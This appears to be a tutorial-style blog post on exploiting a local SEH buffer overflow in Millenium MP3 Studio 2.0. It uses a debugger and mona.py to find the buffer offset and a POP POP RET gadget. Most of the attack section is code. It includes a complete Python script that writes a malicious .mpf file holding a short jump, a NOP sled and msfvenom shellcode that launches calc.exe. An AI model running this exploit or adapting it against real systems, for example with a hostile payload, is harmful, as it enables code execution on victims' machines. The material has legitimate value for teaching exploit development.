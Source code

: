 ```yaml
---
layout: single
title: Local SEH overflow - exploitation of Millenium MP3 Studio 2.0 with a calc.exe shellcode payload
---
```


The victim program for this walkthrough is `Millenium MP3 Studio 2.0`, it includes a local SEH based buffer overflow when opening certain sized files with specific file extensions.

Start by attaching an immunity debugger to the running MP3 Studio process. This will allow us to set breakpoints, and get a better understanding of how the application runs when we start to exploit it. 

![local seh 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh1.png)

The basic concept for exploiting a local Structured Exception Handler based buffer overflow, is that you will create a malicious text file that includes the payload that you are going to manually enter into a vulnerable input field, or instead of a text file, you will generate a malicious payload embedded within something other than a text file, for example, this target application includes a buffer overflow when parsing certain types of data files, with a .mpf file extension, we will generate our malicious payload.

We can start the exploitation process by creating a basic python script that opens up a new file and inputs a large buffer of data into it. 10000 A's  is enough data to overwrite the user input buffer, and two write the excess data onto the applications memory stack, doing so will trigger the buffer overflow vulnerability.

```python
from struct import *

malicious_file = "evil.mpf"

payload = "A" * 10000 # the maliciously large buffer

try:
    print("[x] Opening the malicious file")
    payload_execution = open(malicious_file, "w+")
    print("[x] Creating a file named", malicious_file) 
    payload_execution.write(payload)
    print("[x] Adding payload to the malicious file")
    payload_execution.close()
except:
    print("[!] Error creating the exploit")
```

After running the newly-created script, you can now open this malicious .mpf  File in the MP3 Studio application, while the MP3 Studio application is still attached to immunity immunity. Now you should be able to witness the buffer overflow vulnerability being triggered, and you should experience an exception crash within the application.

![local seh 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh2.png)

If you don't see the SEH chain handlers getting overwritten, try adjusting your payload size, this is the one *advantage* of fuzzing, but due to this exploit being trivial, we don't need to involve any complex fuzzers to find a proper payload size, it can be done manually/

If you look at the stack panel within Immunity, you can see the malicious payload has been written on to the stack.

![local seh 3](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh3.png)

After adjusting the payload size down to 5000 bytes, now you can see if crashes, and also starts overwriting everything.

A few registers are also showing signs of being hit, but most importantly, the SEH handler tab shows you that both the SEH and NSEH have been both overwritten. This is the most important.

![seh handler hit](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh7.png)

Now that you can trigger the vulnerability with a very large sized buffer, you want to calculate the buffer size to fill before overwriting any SEH handlers. You can use the Metasploit patter_create and pattern_offset tools to do this.

```
./pattern_create.rb -l 5000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0....
```
This will create a unique cyclic pattern that will allow you to spot and calculate the buffer size on the basis that if every few bytes of this string is unique, you can calculate where the overwritten data comes from in this unique pattern.

Include this string in your exploit, and run it all through Immunity again, when it crashes this time, use the `!mona findmsp` command to locate any overwritten SEH locations and registers, and see where they have been overwritten.

![local seh 6](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh6.png)

In order to actually exploit this, you need to obtain a POP POP RET  gadget, this can be done with MONA.py  via the !seh -n  command. The POP POP RET sequence will be overwriting the NSEH (next structured exception handler in the SEH chain)

Running this command will search through the program for the needed sequence, this POPPOPRET sequence will return execution flow back to the structured exception Handler, the goal is to overwrite both the exception Handler and the next structured exception Handler. 

![local seh 4](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh4.png)

And the structured exception Handler will be overwritten with this sequence that we discover, returning normal flow back to the user-controlled structured exception Handler.

As for the next structured exception Handler, you want to overwrite it with a short jump sequence, this can be denoted with the assembly opcodes 90 90 32 EB , In a reversed format to compensate for the little endian format that we need the memory addresses to be in.  Overriding the next structure exception Handler with this short jump, will allow for the execution flow to jump over the structured exception Handler. and the short jump will drop us into our NOPSLED.

```python
seh = pack ('<I',  0x10014E98) # POP POP RET from xaudio.dll - using !mona seh -n
nseh = pack ('<I', 0x909032EB) # Short jump over the POPPOPRET filled NSEH
```

Run these new addresses through struct.pack in order to arrange them properly with little endian format.

A NOPSELD is a short payload that is comprised of NOP  assembly instructions, these NOP  instructions do absolutely nothing, they can be used as a sort of Landing Zone padding for our jump. Including 10-15 NOPs as padding is usually enough.

Including the NOPSLED  after our short jump, will allow for a clean Shell Code execution, where our short jump will directly hit our shellcode without any errors, sometimes an application may have slight adjustments, so you want to compensate for anything by including a large area for the short jump to land in.

```
+----------------------+
| Filled input buffer  |
| ↓                    |
| Short JMP            |
| ↓                    |
| POP-POP-RET          |
| ↓                    |
| NOPSLED              |
| ↓                    |
| Shellcode payload    |
+----------------------+
```

Our final payload is as seen below.

```python
from struct import *

malicious_file = "evil.mpf"

# Log data, item 36
# Address=0BADF00D
# Message=    SEH record (nseh field) at 0x0018f948 overwritten with normal pattern : 0x31684630 (offset 4112), followed by 1712 bytes of cyclic data after the handler

seh = pack ('<I',  0x10014E98) # POP POP RET from xaudio.dll - using !mona seh -n
nseh = pack ('<I', 0x909032EB) # Short jump over the POPPOPRET filled NSEH

# shellcode payload that is generated from msfvenom
shellcode = (
"\xdb\xc8\xba\x50\xf4\xd9\x51\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x31\x31\x56\x18\x83\xee\xfc\x03\x56\x44\x16\x2c\xad\x8c\x54"
"\xcf\x4e\x4c\x39\x59\xab\x7d\x79\x3d\xbf\x2d\x49\x35\xed\xc1"
"\x22\x1b\x06\x52\x46\xb4\x29\xd3\xed\xe2\x04\xe4\x5e\xd6\x07"
"\x66\x9d\x0b\xe8\x57\x6e\x5e\xe9\x90\x93\x93\xbb\x49\xdf\x06"
"\x2c\xfe\x95\x9a\xc7\x4c\x3b\x9b\x34\x04\x3a\x8a\xea\x1f\x65"
"\x0c\x0c\xcc\x1d\x05\x16\x11\x1b\xdf\xad\xe1\xd7\xde\x67\x38"
"\x17\x4c\x46\xf5\xea\x8c\x8e\x31\x15\xfb\xe6\x42\xa8\xfc\x3c"
"\x39\x76\x88\xa6\x99\xfd\x2a\x03\x18\xd1\xad\xc0\x16\x9e\xba"
"\x8f\x3a\x21\x6e\xa4\x46\xaa\x91\x6b\xcf\xe8\xb5\xaf\x94\xab"
"\xd4\xf6\x70\x1d\xe8\xe9\xdb\xc2\x4c\x61\xf1\x17\xfd\x28\x9f"
"\xe6\x73\x57\xed\xe9\x8b\x58\x41\x82\xba\xd3\x0e\xd5\x42\x36"
"\x6b\x29\x09\x1b\xdd\xa2\xd4\xc9\x5c\xaf\xe6\x27\xa2\xd6\x64"
"\xc2\x5a\x2d\x74\xa7\x5f\x69\x32\x5b\x2d\xe2\xd7\x5b\x82\x03"
"\xf2\x3f\x45\x90\x9e\x91\xe0\x10\x04\xee")

payload = "A" * 4112 # after calculating the buffer size that triggers this specific vulnerability
payload += nseh
payload += seh
payload += "\x90" * 100
payload += shellcode

# Log data, item 24
# Address=10014E98
# Message=  0x10014e98 : pop esi # pop ecx # ret  |  {PAGE_EXECUTE_READ} [xaudio.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v3.0.7.0 (c:\mp3-millennium\xaudio.dllpayload_execution = open(malicious_file, 'w+')

try:
    print("[x] Opening the malicious file")
    payload_execution = open(malicious_file, "w+")
    print("[x] Creating a file named", malicious_file) 
    payload_execution.write(payload)
    print("[x] Adding payload to the malicious file")
    payload_execution.close()
    print("[x] Sending junk")
    print("[x] Sending POP POP RET via controlled SEH handler")
    print("[x] Jumping to shellcode")
except:
    print("[!] Error creating the exploit")
```

Now you can pop a calculator through this local SEH overflow.

![local seh 5](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/localseh/localseh5.png)

